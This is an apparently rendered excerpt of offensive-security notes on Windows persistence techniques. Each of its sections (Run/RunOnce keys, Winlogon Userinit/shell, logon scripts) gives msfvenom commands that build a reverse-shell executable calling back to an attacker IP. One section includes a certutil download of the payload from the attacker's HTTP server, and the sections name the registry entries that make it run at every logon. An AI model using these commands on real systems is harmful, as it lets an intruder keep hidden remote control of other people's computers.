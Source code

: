 * Run / RunOnce:

```cmd
#we can modify Run/RunOnce registry keys

#create payload
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.53.136 LPORT=4451 -f exe -o revshell.exe

python3 -m http.server

#in victim machine
certutil.exe -urlcache -f http://10.10.53.136:8000/revshell.exe revshell.exe

move revshell.exe C:\Windows

#now create a REG_EXPAND_SZ registry entry under the Run/RunOnce reg keys
#HKLM\Software\Microsoft\Windows\CurrentVersion\Run, for example

#start a listener on attacker machine
#and sign out and sign in again on victim machine to get shell
```

* Winlogon:

```cmd
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.53.136 LPORT=4452 -f exe -o revshell.exe

#transfer payload to victim machine

move revshell.exe C:\Windows

#modify Winlogon registry keys
#alter either shell or Userinit under
#HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\
#do not replace the executable in entry; append the command by a comma

#start a listener on attacker
#log out and log into the victim to get shell
```

* Logon scripts:

```cmd
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.53.136 LPORT=4453 -f exe -o revshell.exe

#transfer payload to victim machine

move revshell.exe C:\Windows

#we need to modify UserInitMprLogonScript in
#HKCU\Environment registry key
#create UserInitMprLogonScript of REG_EXPAND_SZ type, with data as payload path

#start listener and log out and log into victim to get shell
```
